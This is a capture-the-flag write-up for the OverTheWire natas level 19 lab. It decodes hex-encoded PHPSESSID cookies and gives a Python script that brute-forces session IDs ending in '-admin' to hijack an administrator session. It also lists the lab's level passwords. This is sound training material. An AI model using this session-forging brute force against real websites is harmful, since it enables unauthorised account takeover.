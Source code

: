 # [natas 19](http://natas19.natas.labs.overthewire.org)

    Username: natas19
    Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

This level the "PHPSESSID" field of the cookie is not a simple number.
Let me see some samples.

    PHPSESSID: 3332352d61      ~   325-a
    PHPSESSID: 39342d617364    ~   94-asd
    PHPSESSID: 3139382d617364  ~   198-asd

Obviously the PHPSESSID consists of a number and a username.
Modify natas18's python script slightly.

    import requests
    for i in range(641):
        r = requests.get('http://natas19.natas.labs.overthewire.org/', auth=('natas19','4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), cookies={'PHPSESSID': "".join([hex(ord(ch))[2:] for ch in str(i)+"-admin"])})
        if 'You are an admin' in r.text:
            print(r.text)
            break

Record the result.

    Username: natas20
    Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

